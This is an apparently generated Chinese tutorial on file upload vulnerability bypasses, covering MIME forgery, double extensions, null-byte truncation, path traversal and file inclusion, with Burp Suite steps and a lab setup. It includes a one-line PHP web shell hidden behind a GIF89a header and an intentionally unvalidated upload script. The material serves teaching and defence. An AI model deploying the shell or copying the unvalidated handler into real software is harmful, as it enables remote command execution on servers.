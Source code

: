 # 文件上传漏洞绕过技巧的案例分析

## 1. 技术原理解析

文件上传漏洞是指攻击者通过上传恶意文件到服务器，从而执行任意代码或获取服务器控制权的安全漏洞。其核心问题在于服务器对上传文件的类型、内容、扩展名等未进行严格验证，导致攻击者可以绕过限制上传恶意文件。

### 1.1 底层实现机制

文件上传漏洞的底层实现机制主要涉及以下几个方面：

1. **文件类型验证**：服务器通常通过检查文件的MIME类型或扩展名来验证文件类型。攻击者可以通过伪造MIME类型或修改扩展名来绕过验证。
2. **文件内容验证**：服务器可能会检查文件内容是否符合预期格式。攻击者可以通过在合法文件中嵌入恶意代码来绕过内容验证。
3. **文件存储路径**：上传的文件通常存储在服务器的特定目录中。攻击者可以通过路径遍历等手段将文件存储在可执行目录中。
4. **文件执行权限**：服务器可能会对上传的文件设置执行权限。攻击者可以通过修改文件权限或利用服务器配置漏洞来执行上传的文件。

### 1.2 常见绕过技巧

1. **MIME类型伪造**：攻击者通过修改HTTP请求中的`Content-Type`字段，将恶意文件伪装成合法文件类型（如`image/jpeg`）。
2. **扩展名绕过**：攻击者通过修改文件扩展名（如将`.php`改为`.php.jpg`）来绕过扩展名验证。
3. **文件内容混淆**：攻击者在合法文件中嵌入恶意代码（如在图片文件中嵌入PHP代码），并通过文件解析漏洞执行恶意代码。
4. **路径遍历**：攻击者通过构造特殊的上传路径（如`../../uploads/evil.php`）将文件存储在可执行目录中。
5. **双扩展名绕过**：攻击者使用双扩展名（如`evil.php.jpg`）来绕过扩展名验证，某些服务器可能只检查最后一个扩展名。

## 2. 高级利用技巧

### 2.1 文件头伪造

攻击者可以通过在文件头部添加合法的文件头信息（如`GIF89a`）来绕过文件内容验证。例如，将PHP代码嵌入到GIF文件中：

```php
GIF89a
<?php
    system($_GET['cmd']);
?>
```

### 2.2 文件截断

在某些情况下，攻击者可以通过在文件名中添加空字符（`%00`）来截断文件扩展名验证。例如，将文件名设置为`evil.php%00.jpg`，服务器可能只检查`evil.php`部分。

### 2.3 文件包含漏洞结合利用

攻击者可以通过文件包含漏洞执行上传的恶意文件。例如，上传一个包含PHP代码的图片文件，然后通过文件包含漏洞执行该文件：

```php
<?php
    include 'uploads/evil.jpg';
?>
```

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建

1. **Web服务器**：使用Apache或Nginx搭建Web服务器。
2. **PHP环境**：安装PHP并配置Web服务器支持PHP解析。
3. **文件上传功能**：创建一个简单的文件上传页面：

```html
<form action="upload.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" value="Upload">
</form>
```

4. **文件上传处理脚本**：创建一个简单的文件上传处理脚本`upload.php`：

```php
<?php
    $target_dir = "uploads/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
?>
```

### 3.2 攻击步骤

1. **MIME类型伪造**：
   - 使用Burp Suite拦截文件上传请求。
   - 修改`Content-Type`字段为`image/jpeg`。
   - 上传包含恶意代码的文件。

2. **扩展名绕过**：
   - 将恶意文件扩展名改为`.php.jpg`。
   - 上传文件并访问`uploads/evil.php.jpg`。

3. **文件头伪造**：
   - 在恶意文件头部添加`GIF89a`。
   - 上传文件并访问`uploads/evil.gif`。

4. **路径遍历**：
   - 修改上传路径为`../../uploads/evil.php`。
   - 上传文件并访问`uploads/evil.php`。

5. **文件包含漏洞结合利用**：
   - 上传包含PHP代码的图片文件。
   - 通过文件包含漏洞执行该文件：

```php
<?php
    include 'uploads/evil.jpg';
?>
```

## 4. 实际命令、代码或工具使用说明

### 4.1 Burp Suite使用

1. **启动Burp Suite**：启动Burp Suite并配置浏览器代理。
2. **拦截请求**：在浏览器中上传文件，Burp Suite将拦截请求。
3. **修改请求**：修改`Content-Type`字段或文件名，然后转发请求。

### 4.2 文件头伪造

1. **创建恶意文件**：在文本编辑器中创建包含PHP代码的文件，并在文件头部添加`GIF89a`。
2. **上传文件**：通过文件上传功能上传该文件。

### 4.3 文件包含漏洞利用

1. **上传恶意文件**：上传包含PHP代码的图片文件。
2. **执行文件**：通过文件包含漏洞执行该文件：

```php
<?php
    include 'uploads/evil.jpg';
?>
```

## 结论

文件上传漏洞是Web应用程序中常见的安全漏洞，攻击者可以通过多种技巧绕过服务器的验证机制。通过深入理解漏洞的底层实现机制和高级利用技巧，开发人员和安全专家可以更好地防御此类攻击。在实际应用中，应严格验证上传文件的类型、内容和存储路径，并定期进行安全审计和漏洞扫描，以确保Web应用程序的安全性。

---

*文档生成时间: 2025-03-11 12:58:25*
